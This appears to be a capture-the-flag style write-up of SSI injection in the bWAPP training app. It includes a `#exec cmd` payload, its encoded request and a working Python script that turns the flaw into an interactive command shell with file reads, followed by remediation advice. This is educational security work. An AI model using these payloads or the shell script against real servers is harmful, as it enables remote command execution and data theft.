




# 1. Low
In the default: We found that we are interacting with [ssii.php](http://bee.bug/bWAPP/ssii.php). I tried to input 123 and 456 into 2 text box and lookup



After pressed `Look up` the server response and redirected to [ssii.shtml](http://bee.bug/bWAPP/ssii.shtml) and return `Hello <FirstName> <LastName>`.



With known SSI vulnerability. I used `<!--#exec cmd='<your command>'-->`
- Payload: `<!--<!--#exec cmd='ls -la'-->-->`
- Request from client to server: `firstname=123&lastname=%3C%21--%3C%21--%23exec+cmd%3D%27ls+-la%27--%3E--%3E&form=submit`
And here is the result, so I built a script that help us to easy exploit this vulnerability



=> Build script to make a semi-shell



---
# 2. Medium
The server have filtered, could not exploit.

---
# 3. Script Supported

```python
from urllib3.exceptions import InsecureRequestWarning  
import requests  
import urllib3  
import re  
  
urllib3.disable_warnings(InsecureRequestWarning)  
HOST_NAME = "http://bee.bug/"  
session = requests.session()  
session.verify = False  
session.headers['User-Agent'] = 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/118.0'  
session.headers['Accept'] = 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8'  
proxies = {"http": '127.0.0.1:8080',  
           "https": '127.0.0.1:8080'}  
security_level = {"0": "Low", "1": "Medium", "2": "High"}  
session.proxies.update({'http': '127.0.0.1:8080', 'https': '127.0.0.1:8080'})  
  
  
def get_php_session():  
    username = 'bee'  
    password = 'bug'  
    header = session.headers.update({"Content-Type": "application/x-www-form-urlencoded"})  
    print('[+] Preparing Header: Content-Type": "application/x-www-form-urlencoded')  
    credential_parameters = f"login={username}&password={password}&security_level=0&form=submit"  
    print(f'[+] Preparing Login parameters: {credential_parameters}')  
    print(f'[*] Requesting with POST {HOST_NAME + "bWAPP/login.php"}')  
    response = session.post(HOST_NAME + "bWAPP/login.php", headers=header, data=credential_parameters,  
                            allow_redirects=False)  
    if response.status_code == 302:  
        print(f'   [{response.status_code}] Login Successfully with Username: {username} - Password: {password}')  
        print(f'   [{response.status_code}] Got PHPSESSID: {session.cookies["PHPSESSID"]}')  
        print(f'   [{response.status_code}] Got security_level: {security_level.get(session.cookies["security_level"])}')  
        print()  
        return session.cookies["security_level"]  
    else:  
        print('[-] False to authenticate. Try with another known credentials')  
  
  
def inject_code():  
    uri = 'bWAPP/ssii.php'  
    url = HOST_NAME + uri  
    print(f'[+] Requesting to: {url}')  
    session.headers.update({'Content-Type': 'application/x-www-form-urlencoded'})  
    user_input = input('   [*] Shell> ')  
    if 'exit' in user_input.lower() and len(user_input.replace(' ', '')) == 4:  
        print('   [-] Exiting ...')  
        return 1  
    if 'cat' in user_input:  
        payload = (f'firstname=1&lastname=1<!--+1337<!--#include+file="{user_input.replace("cat ","")}"-->1337+-->&form=submit')  
    else:  
        payload = (f'firstname=1&lastname=1<!--+1337<!--#exec+cmd="{user_input}"-->1337+-->&form=submit')  
    response = session.post(url, data=payload, allow_redirects=True)  
  
    result = re.search(r'<!-- 1337(.+?)1337 -->', response.text, re.S)  
    if result:  
        print(result.group(1))  
    elif 'an error occurred while processing this directive' in response:  
        print(f'[-] Command "{user_input}" not found\n')  
    else:  
        print(f'[-] Command "{user_input}" not found\n')  
  
  
if __name__ == '__main__':  
    sec_level = get_php_session()  
    while True:  
        try:  
            if sec_level == "0":  
                if_exit = inject_code()  
                if if_exit:  
                    break  
            else:  
                print('[-] Medium and High level could not bypass because of using htmlspecialchars() function')  
        except KeyboardInterrupt:  
            break
```


---
# 4. Remediation

- Validating User Input and only accept word or number only, example given using regular expression: `\w+` or `[a-zA-Z0-9 ]+`
- Using function to filter input: 
	- `$value = htmlentities($_GET['src'], ENT_QUOTES);`
	- `$value = htmlspecialchars($_GET['src'], ENT_QUOTES);`
- Using [sanitize filter php](https://www.php.net/manual/en/filter.filters.sanitize.php)